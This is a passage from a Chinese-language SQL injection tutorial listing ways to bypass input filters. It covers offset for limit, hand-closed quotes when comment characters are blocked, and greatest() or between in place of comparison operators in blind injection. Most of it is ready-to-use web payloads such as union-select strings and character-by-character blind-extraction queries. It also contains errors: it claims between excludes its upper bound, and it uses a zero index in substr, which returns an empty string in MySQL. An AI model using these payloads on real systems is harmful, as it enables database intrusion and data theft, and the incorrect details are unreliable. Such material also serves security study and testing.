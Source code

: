 ```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

### 使用**offset关键字**绕过

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
等价于
select * from news limit 1 offset 0
```

## 过滤注释符（ `#` 和 `--` ）

### 手动闭合引号，不使用注释符

```sql
id=1' union select 1,2,3||'1
```

或者：

```sql
id=1' union select 1,2,'3
```

## 过滤比较符号 （ `<` 和 `>` ）

### 使用**`greatest()`、`least（）`函数**绕过

greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了

最常见的一个盲注的SQL语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值

那么上面的这条SQL语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用**`between` `and`**绕过

between a and b：返回a，b之间的数据，不包含b。

## 过滤等号（ `=` ）
